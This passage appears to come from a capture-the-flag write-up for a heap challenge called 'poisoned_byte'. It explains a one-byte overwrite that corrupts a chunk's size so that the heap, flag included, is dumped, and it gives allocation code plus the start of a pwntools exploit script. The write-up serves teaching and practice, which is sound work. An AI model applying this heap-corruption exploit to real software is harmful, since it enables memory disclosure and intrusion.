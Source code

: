 Reminder: `malloc(0x38)` and `malloc(0x30)` will return the same chunk size `0x40`, because `prev_size` field of next chunk is used to store data.

Now we modify the chunk size of chunk to inglobate another chunk, utilizing the single byte overwrite.

For that chunk we need to use a size such that it goes in unsorted bin, so when we reallocate the size of the first chunk, we break the second chunk with fwd and bck pointer.

```python
new(0x15, b"A"*5)
new(0x508-0x4, b"B"*5)
new(0x18-0x4, b'C'*5)
new(0x18-0x4, b"DDDD")

wait_for_shas(3, b'71')

delete(2)
new(0x508-0x4, b"DDDD"*50)

```

This corrupts the size, so when you print the chunk we corrupted, it dumps the whole heap.

Note:
Even though the flag is being loaded onto the stack, it goes into the heap because of buffering.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./poisoned_byte_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r

def main():
    r = conn()

    # good luck pwning :)

    def new(n, data):
        r.read()
        r.writeline(b'1')
        r.read()
        r.writeline(f'{n}'.encode())
        r.read()
        r.writeline(data)

    def sign():
        r.read()
        r.writeline(b'2')

    def edit(idx,data):
        r.read()
```